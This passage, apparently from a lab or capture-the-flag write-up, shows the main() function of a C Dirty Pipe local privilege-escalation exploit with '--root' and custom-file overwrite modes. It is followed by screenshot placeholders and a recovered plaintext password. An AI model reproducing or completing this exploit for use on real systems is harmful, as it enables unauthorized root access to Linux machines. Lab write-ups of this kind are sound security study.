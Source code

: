 ```c
        exit(EXIT_FAILURE);
    }
}

int main(int argc, char *argv[])
{
    int no_backup = 0;
    int index_shift = 0;

    // Check for the --no-backup option.
    for (int i = 1; i < argc; i++) {
        if (strcmp(argv[i], "--no-backup") == 0) {
            no_backup = 1;
            index_shift++;
        }
        // Check for help flags.
        else if (strcmp(argv[i], "-h") == 0 || strcmp(argv[i], "--help") == 0) {
            print_help(argv[0]);
            return EXIT_SUCCESS;
        }
    }

    if (argc < 2 + index_shift)
    {
        print_help(argv[0]);
        exit(EXIT_FAILURE);
    }

    if (strcmp(argv[1 + index_shift], "--root") == 0) {
        handle_root_exploit(no_backup);
    } else if (argc == 4 + index_shift) {
        handle_custom_file(no_backup, argv, index_shift);
    } else {
        fprintf(stderr, "[Dirty Pipe] Error: Invalid arguments!\n");
        print_help(argv[0]);
        exit(EXIT_FAILURE);
    }

    printf("[Dirty Pipe] Program execution completed successfully.\n");
    return EXIT_SUCCESS;
}
```

Lets see if it works:

![[Pasted image 20240713083708.png]]

Pass:
el3ph@nt!

![[Pasted image 20240713083832.png]]

---

